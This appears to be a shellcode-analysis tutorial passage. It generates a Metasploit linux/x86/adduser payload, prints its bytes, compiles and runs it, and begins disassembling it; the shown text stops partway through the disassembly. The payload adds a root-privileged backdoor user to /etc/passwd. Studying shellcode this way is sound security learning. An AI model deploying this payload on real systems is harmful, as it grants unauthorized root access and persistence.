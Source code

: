 Generating shellcode.

```sh
root@ubuntu:~# msfvenom -p linux/x86/adduser USER=hax0r PASS=falafelislife -f c -v shellcode
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 92 bytes
Final size of c file: 419 bytes
unsigned char shellcode[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x68\x61"
"\x78\x30\x72\x3a\x41\x7a\x45\x56\x62\x31\x4a\x43\x50\x47\x31"
"\x49\x51\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f"
"\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58"
"\xcd\x80";
root@ubuntu:~# 
```

And then compile and test.

```sh
root@ubuntu:~# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@ubuntu:~# ./shellcode 
root@ubuntu:~# cat /etc/passwd | grep hax0r
hax0r:AzEVb1JCPG1IQ:0:0::/:/bin/sh
root@ubuntu:~#
```

Now we use `Ndisasm` to dump assembly code.

```sh
root@ubuntu:~# echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x23\x00\x00\x00\x68\x61\x78\x30\x72\x3a\x41\x7a\x45\x56\x62\x31\x4a\x43\x50\x47\x31\x49\x51\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E823000000        call dword 0x4e
0000002B  6861783072        push dword 0x72307861
00000030  3A417A            cmp al,[ecx+0x7a]
00000033  45                inc ebp
00000034  56                push esi
00000035  62                db 0x62
00000036  314A43            xor [edx+0x43],ecx
00000039  50                push eax
0000003A  47                inc edi
0000003B  314951            xor [ecx+0x51],ecx
0000003E  3A30              cmp dh,[eax]
00000040  3A30              cmp dh,[eax]
```